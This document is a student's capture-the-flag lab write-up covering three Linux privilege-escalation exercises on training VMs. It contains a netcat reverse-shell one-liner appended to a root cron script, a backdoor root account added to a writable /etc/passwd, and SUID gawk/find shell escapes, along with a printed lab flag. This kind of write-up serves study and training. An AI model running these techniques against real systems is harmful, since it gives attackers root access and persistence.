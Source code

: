 
###### 18.3.5.2
On the target VM #1, use an appropriate privilege escalation technique to gain access to root and read the flag.Scheduling is all that matters.  
  
  
No cron jobs listed.  
  
Looked to see what services are running:
```bash
└─$ ps -aux  
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND  
root           1  0.0  0.0   2416   576 ?        Ss   18:58   0:00 /bin/sh -c chmod 400 /root/flag.txt && chown root /root/flag.txt && /usr/sbin/sshd   && cron   && tail -f /var/log/cron.log
```

Tried finding the filename for that command... could only find name of the process:
```bash
└─$ ps -p 1 -o comm=  
	sh
```

Tried to find a .sh file which _could_ fit this purpose:
```bash
find / -user root -perm /222 -name *.sh 2>/dev/null  
/var/archives/archive.sh  
...  
  
└─$ cat /var/archives/archive.sh  
#!/bin/bash  
  
TIMESTAMP=$(date + "%T")  
echo "$TIMESTAMP running the archiver"  
#cp -rf /home/kali /var/backups/kali  
cp -rf /home/student/ /var/backups/student/
```

Looked extremely similar to the class mats, so figured why not.  
Added one-liner for a reverse shell:
```bash
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ip> <port> > /tmp/f" >> /var/archives/archive.sh
```
	Which worked.  woot



###### 18.3.5.3
On the target VM #2, use another appropriate privilege escalation technique to gain access to root and read the flag. Take a closer look at file permissions.  
  
So damn easy
```bash
┌──(student㉿982662cf759a)-[~]  
└─$ ls -lah /etc/passwd  
-rw-rw-rw- 1 root root 1.4K Jan  9 19:33 /etc/passwd  
┌──(student㉿982662cf759a)-[~]  
└─$ openssl passwd pwnd  
nRpOSeBTiWBf6  
┌──(student㉿982662cf759a)-[~]  
└─$ echo "root2:nRpOSeBTiWBf6:0:0:root:/root:/bin/bash" >> /etc/passwd  
┌──(student㉿982662cf759a)-[~]  
└─$ su root2  
Password:   
┌──(root💀982662cf759a)-[/home/student]
```



###### 18.3.5.4
Again, use an appropriate privilege escalation technique to gain access to root and read the flag on the target VM #3.Binary flags and custom shell are what to look for.  
  
Also so damn easy..... like, I literally laughed.  
  
  
Searched for binaries that had SUID or GUID bits set:
```bash
student@99df13b19ef1:~$ find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000  
/bin/umount  
/bin/su  
/bin/mount  
/usr/bin/passwd  
/usr/bin/newgrp  
/usr/bin/chsh  
/usr/bin/gpasswd  
/usr/bin/find  
/usr/bin/chfn  
/usr/bin/gawk  
/usr/bin/vim.basic  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/usr/lib/openssh/ssh-keysign  
find: unknown predicate `-o-'
```

Took a chance on gawk, though I think any one would've likely worked.  
  
Used [https://gtfobins.github.io/](https://gtfobins.github.io/) and searched for **gawk**. Used shell cmd vuln:
```bash
student@99df13b19ef1:~$ gawk 'BEGIN {system("/bin/sh")}'  
# id  
uid=1000(student) gid=1000(student) euid=0(root) groups=1000(student)  
# cat /root/flag.txt  
Great job! You found me.  
Here is your flag:  
  
OS{e63003c582419ac5916f6def043fb033}
```
	*Notice the EUID

(Also works for [**awk**](Cmdline%20Tools.md#awk))

[**find**](Cmdline%20Tools.md#find) also works:
```bash
find . -exec /bin/sh \; -quit
```